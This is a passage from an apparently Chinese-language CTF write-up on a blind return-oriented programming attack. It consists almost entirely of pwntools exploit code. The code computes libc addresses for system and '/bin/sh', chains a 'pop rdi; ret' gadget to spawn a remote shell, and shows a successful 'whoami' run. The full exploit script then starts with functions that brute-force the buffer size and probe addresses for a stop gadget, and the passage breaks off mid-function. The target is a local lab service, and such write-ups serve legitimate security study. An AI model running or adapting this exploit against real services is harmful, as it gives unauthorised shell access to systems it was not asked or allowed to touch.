 ```python
offset_puts   = 0x000000000006f210
offset_system = 0x0000000000042010
offset_str_bin_sh = 0x17aff5

system_addr = (puts_addr - offset_puts) + offset_system
binsh_addr  = (puts_addr - offset_puts) + offset_str_bin_sh

# get shell
payload  = "A"*buf_size
payload += p64(gadgets_addr + 9)    # pop rdi; ret;
payload += p64(binsh_addr)
payload += p64(system_addr)
payload += p64(stop_addr)

p = remote('127.0.0.1', 10001)
p.recvline()
p.sendline(payload)
p.interactive()
```

Bingo!!!
```
$ python2 exp.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```

#### exploit
完整的 exp 如下：
```python
from pwn import *

#context.log_level = 'debug'

def get_buffer_size():
    for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size

def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
```